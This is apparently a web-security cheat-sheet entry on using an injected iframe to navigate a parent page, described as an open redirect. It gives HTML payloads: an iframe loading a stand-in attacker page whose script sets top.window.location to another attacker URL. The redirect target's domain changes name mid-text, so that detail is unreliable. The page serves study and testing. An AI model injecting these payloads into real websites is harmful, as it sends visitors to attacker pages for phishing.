 The [&lt;iframe&gt;](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) tag is used to embed an HTML document in another HTML document. If source of inserted document located on another origin, same origin policy will block any access to content of other document for both of them.

# Open redirect

Child document can view and set location property for parent, even if cross-origin `top.window.location`.

Inject an iframe to `vulnerable-website.com`:

```html
<iframe src=//malicious-website.com/toplevel.html></iframe>
```

where `https://malicious-website.com/toplevel.html` contains:

```html
<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>
```

When the iframe is loaded, the parent will be redirected to the `https://malware-website.com/pwned.html` page, even if the child document is loaded from a different origin. Same origin policy will be bypassed because the iframe is not being "sandboxed", q.v. [sandbox iframe attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe).

# References

- [&lt;meta&gt; and &lt;iframe&gt; tags chained to SSRF](https://medium.com/@know.0nix/hunting-good-bugs-with-only-html-d8fd40d17b38)
